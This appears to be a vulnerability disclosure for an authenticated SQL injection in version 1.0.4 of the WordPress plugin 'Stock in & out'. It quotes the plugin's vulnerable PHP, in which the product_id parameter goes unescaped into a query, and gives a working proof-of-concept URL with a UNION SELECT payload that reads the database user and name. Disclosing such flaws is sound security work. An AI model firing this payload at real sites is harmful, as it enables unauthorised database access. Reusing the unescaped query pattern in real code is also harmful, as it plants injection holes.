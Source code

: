 # Vulnerability Info
## Vulnerability Type
Wordpress plugin Stock in & out Authenticated SQL Injection
## Vulnerability Version
1.0.4
## Recurring environment
Windows 10* PHP 5.4.5* Apache 2.4.23
## Author
pang0lin@webray.com.cn inc.
# Vulnerability Description AND recurrence:
The plugin has a functionality with Contributor role as the lowest access level takes in GET parameter product_id. The parameter is passed into SQL select statement without proper filter, validation or escaping therefore leads to sql injection.
The security issue is occured at file \wp-content\plugins\stock-in\includes\settings.php
```
 <?php
global $wpdb;
$author_id=get_current_user_id();
$stock_in_history=$wpdb->prefix.'stock_in_history';
/*if(isset($_GET['product_id'])){
$stock_in_log = $wpdb->get_results("SELECT * FROM $stock_in_history	WHERE product_id = $product_id ORDER BY id DESC");
}else{
$stock_in_log = $wpdb->get_results("SELECT * FROM $stock_in_history	ORDER BY id DESC");
}*/

if(isset($_GET['product_id'])){
$stock_in_log = "SELECT * FROM $stock_in_history WHERE product_id = $product_id";
}else{
$stock_in_log = "SELECT * FROM $stock_in_history";
}

$query = $stock_in_log;
 $total_query = "SELECT COUNT(1) FROM (${query}) AS combined_table";
    $total = $wpdb->get_var( $total_query );
    $items_per_page = 20;
	//$sort = isset( $_GET['sort'] ) ? 'DESC'	: 'ASC';
    $page = isset( $_GET['cpage'] ) ? abs((int)$_GET['cpage']) : 1;
    $offset = ( $page * $items_per_page ) - $items_per_page;
    $stock_in_log_by_page = $wpdb->get_results( $query . " ORDER BY ID ${sort} LIMIT ${offset}, ${items_per_page}" );

```
The parameter $_GET['product_id'] is derectly used by select statement. Then, we can exploit it .

http://www.target.com/wp-admin/admin.php?page=stock_in&product_id=0+union+select+1%2C2%2C3%2Cuser%28%29%2Cdatabase%28%29%2C6%2C7%2C8%2C9%2C10&tab=history

![blockchain](https://github.com/pang0lin/CVEproject/blob/main/imgs/wordpress_plugin_stockinandout_sqli.png "wordpress_plugin_stockinandout_sqli")

